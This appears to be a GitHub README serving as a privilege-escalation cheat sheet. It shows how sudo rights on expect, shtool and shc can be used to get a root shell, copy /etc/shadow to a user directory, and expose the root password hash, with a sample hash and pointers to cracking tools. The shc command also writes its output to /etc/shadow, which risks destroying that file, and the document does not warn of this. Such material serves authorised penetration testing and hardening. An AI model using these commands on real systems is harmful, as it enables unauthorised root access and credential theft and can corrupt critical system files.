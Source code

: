 ## Privilege Escalation Binaries Not Listed on GTFOBins

This document lists binaries with `sudo` permissions that are not found on GTFOBins but can still be used for privilege escalation.

---

### `expect` - Sudo Privilege Escalation

#### **Description**
`expect` is an automation tool that interacts with applications requiring user input. If granted **sudo permissions**, it can be exploited to execute arbitrary commands as root.

#### **Exploitation**
If `expect` is allowed with `sudo`, you can escalate privileges using the following:

```sh
sudo /usr/bin/expect
expect1.1> whoami
root
```

---

### `shtool` - Sudo Privilege Escalation  

#### **Description**  
`shtool` is a script utility tool commonly used for installation tasks. If granted **sudo permissions**, it can be abused to copy sensitive system files (e.g., `/etc/shadow`) to a location accessible by a lower-privileged user, enabling privilege escalation.  

#### **Exploitation**  
If `shtool` is available with `sudo`, you can copy `/etc/shadow` to a user-accessible directory and attempt **password cracking** to escalate privileges.  

```sh
sudo shtool install -c /etc/shadow /home/user/shadow
```

Now, verify the copied file:

```sh
ls
shadow
cat shadow
```

This will reveal hashed passwords, which can be cracked using tools like John the Ripper or hashcat.

---

### `shc` - Sudo Privilege Escalation  

#### **Description**  
`shc` (Shell Script Compiler) is used to compile shell scripts into binary executables. If it has **sudo permissions**, it can be exploited to reveal the **root password hash** from `/etc/shadow`.  

#### **Exploitation**  
When `shc` is executed on `/etc/shadow` with `sudo`, it tries to interpret it as a script. Since the **first line of `/etc/shadow` contains the root user hash**, `shc` fails and **displays the root password hash by default**.  

#### **Command:**  
```sh
sudo /usr/bin/shc -f /etc/shadow -o /etc/shadow
```

Expected output:
```sh
shc: invalid first line in script: root:$6$lYoxb/H/0LQ5d50Q$mM2ej4Um6zmkg11uszJrBpZo/vI4TT6nEvQnlnI/GlB9otfNIyN9xXfATAxVAUzj4ojTE1pmFbY12NUzw2j/b0:18313:0:99999:7:::
```

Here, the root password hash is exposed, allowing an attacker to extract and crack it using tools like John the Ripper or hashcat.

---
